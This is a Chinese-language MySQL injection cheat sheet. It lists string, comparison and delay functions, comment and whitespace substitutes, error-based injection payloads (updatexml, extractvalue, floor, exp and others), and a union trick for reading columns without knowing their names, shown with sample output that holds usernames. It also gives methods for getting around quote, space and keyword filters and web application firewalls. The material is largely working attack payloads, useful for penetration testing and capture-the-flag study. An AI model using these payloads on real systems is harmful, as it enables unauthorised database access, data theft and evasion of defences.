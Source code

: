 ## MYSQL注入 备忘录 ##

字符串截取函数：
```mysql
left(str,index) 从左边index开始截取
right(str,index) 从右边index开始截取
substring(str,index) 从左边index开始截取
substr(str,index,len) 截取str，index开始，截取len的长度
mid(str,index,ken) 截取str从index开始，截取len的长度
```
![kOJzKe.md.png](https://s2.ax1x.com/2019/03/04/kOJzKe.md.png)

字符串比较：
```mysql
strcmp(expr1,expr2) 如果两个字符串是一样返回0，如果第一个小于第二个则返回-1
find_in_set(str,strlist) 如果相同则返回1不同则返回0
```
![kOtdOg.png](https://s2.ax1x.com/2019/03/04/kOtdOg.png)

字符串连接函数：
```mysql
concat(str1,str2) 将字符串首尾相连
concat_ws(separator,str1,str2) 将字符串用指定连接符连接
group_concat(str) 获取全部数据
```
![kOU7QK.png](https://s2.ax1x.com/2019/03/04/kOU7QK.png)

罕见的函数：
```mysql
INSTR(STR,SUBSTR) 在一个字符串(STR)中搜索指定的字符(SUBSTR),返回发现指定的字符的位置(INDEX); 
lpad(str,len,str2) 第一个为要填充的str，len为指定的长度，str2为填充的字符串
```
![kOdruT.png](https://s2.ax1x.com/2019/03/04/kOdruT.png)

使用INSTR或LPAD的盲注：
![kO0b9A.png](https://s2.ax1x.com/2019/03/04/kO0b9A.png)

运算符：
```mysql
+ - * /
```

比较运算符：
```mysql
> = < <> != ><
```

逻辑运算符：
```mysql
not或！非
OR逻辑或== ||
XOR 逻辑异或==^
```
当and被过滤后可以这样操作：
![kOBkj0.png](https://s2.ax1x.com/2019/03/04/kOBkj0.png)

注释符：
```mysql
#
/**/
--+
```

延时函数：
```
sleep()
benchmark(10000,sha(1)) MySQL有一个内置的BENCHMARK()函数，可以测试某些特定操作的执行速度参数可以是需要执行的次数和表达式
```
benchmark可以用来sleep被过滤掉的时候用于盲注
![kOBTbT.png](https://s2.ax1x.com/2019/03/04/kOBTbT.png)

条件语句：
```mysql
if((语句执行),为True执行什么条件，为False执行什么条件)
例子：
and sleep(if((1=2),1,4))
```

information_schema结构：
```mysql
information_schema.tables:
查询表名：table_name 对应表名：table_schema
information_schema.columns:
查询列名：column_name 对应表名：table_name
```

mysql空白字符：
```mysql
   %20 %09 %0a %0b %0c %0d `%a0` /\*\*/ tab/  
   %a0 这个不会被php的\s进行匹配  
   /*!/ 内敛注释  
   \# 这个也可以用来做分隔 挺有意思  
```

编码函数：
```mysql
hex()
ascii()
```

报错注入payload：
```mysql
  1.floor()
        and (select 1 from(select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x)a)

    2.updatexml() //5.1.5
        and 1=(updatexml(1,concat(0x3a,(select user())),1))

    3.extractvalue() //5.1.5
        and extractvalue(1,concat(0x5c,(select user())))

    4.exp() //5.5.5版本之后可以使用
        select host from user where user = 'root' and Exp(~(select * from (select version())a));

    5.name_const //支持老版本
        select * from (select NAME_CONST(version(),0),NAME_CONST(version(),0))x;

    6.geometrycollection()，multipoint()，polygon()，multipolygon()，linestring()，multilinestring() 几何函数报错
        select multipoint((select * from (select * from (select * from (select version())a)b)c));
```

不知道列名的情况下注入：
```mysql
mysql> select * from users where id=0 union select 1,2,3;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | 2        | 3        |
+----+----------+----------+
1 row in set (0.00 sec)

mysql> select * from users where id=0 union select 1,(select `2` from (select 1,
2,3 union select * from users)a limit 2,1),3;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Angelina | 3        |
+----+----------+----------+
1 row in set (0.00 sec)

mysql> select * from users where id=0 union select 1,(select group_concat(`2`) f
rom (select 1,2,3 union select * from users)a),3;
+----+--------------------------------------------------------------------------
--------------------------------------------------------------------------------
--------------------------------------------------------------------------------
--------------------------------------------------------------------------------
--------------------------------------------------------------------------------
--------------------------------------------------------------------------------
--------+----------+
| id | username





        | password |
+----+--------------------------------------------------------------------------
--------------------------------------------------------------------------------
--------------------------------------------------------------------------------
--------------------------------------------------------------------------------
--------------------------------------------------------------------------------
--------------------------------------------------------------------------------
--------+----------+
|  1 | 2,Dumb,Angelina,Dummy,secure,stupid,superman,batman,admin,admin1,admin2,a
dmin3,dhakkan,admin4,zr',haq,administrator,demo,zr' and 1=1 #,zrs' and 1=2 #,bbc
' order by 10 #,qw' order by 4 #,weq' order by 3--+,opq' order by 3 #,cs' union
select 1,2,chishi' and 1=2 unio,chishiq' and 1=2 uni,test' union select 1,csq' u
nion select 1,,csqw' and updatexml(,yuis,uio,admq',oepqw' and '1'='1,ggc' order
by 4 #,鏃犲皹' order by 1 #,rqt' order by 3 #,eqwewqe' order by 4 ,eqeqw' union
select    | 3        |
+----+--------------------------------------------------------------------------
--------------------------------------------------------------------------------
--------------------------------------------------------------------------------
--------------------------------------------------------------------------------
--------------------------------------------------------------------------------
--------------------------------------------------------------------------------
--------+----------+
1 row in set (0.00 sec)

```

针对回显不同使用不同的注入方法：
```
1.能够正常回显，能显示出数据，常规注入
2.能够正常回显，无法显示出数据，盲注
3.能够无法正常回显，无法显示出数据，延时盲注
4.在POST里面有注入，burp抓包手注或保存其数据包扔sqlmap跑
```

常用的绕过过滤方法：
```
1.如果是代码层写的过滤，我们可以猜他的过滤条件或正则
   将注入语句逐个删减，看看那个关键词引发的拦截。能否有变的函数来进行代替，过滤注入使用的函    数是preg_replace()还是str_replace() 。如果是前者可以猜其正则，看看能不能绕过，如果后者能否用     变的函数代替，或者有的关键词是被替换成空的。用哪个关键词来分割没被过滤成空的关键词
2.单引号被过滤
   尝试在单引号面前加上%df如果绕过了的话就代表数据库是GBK编码了
3.空格被过滤
  使用代码空格的URL编码或fuzz可以代替空格的编码
4.关键词被过滤
  使用可以代替被过滤函数的函数
5.注释符号被过滤
  手动闭合，假设查询语句为：select * from users where id='1'
  手动闭合注入的payload：' and 1=1 and '1'='1 或者 ' and 1=1 |'1
```

常用的过滤WAF方法：
```
1.隧道传输
2.边界传输
3.分块传输
4.边界+分块
5.边界+分块+注释干扰
6.charset=ibm500、charset=ibm037编码绕过
```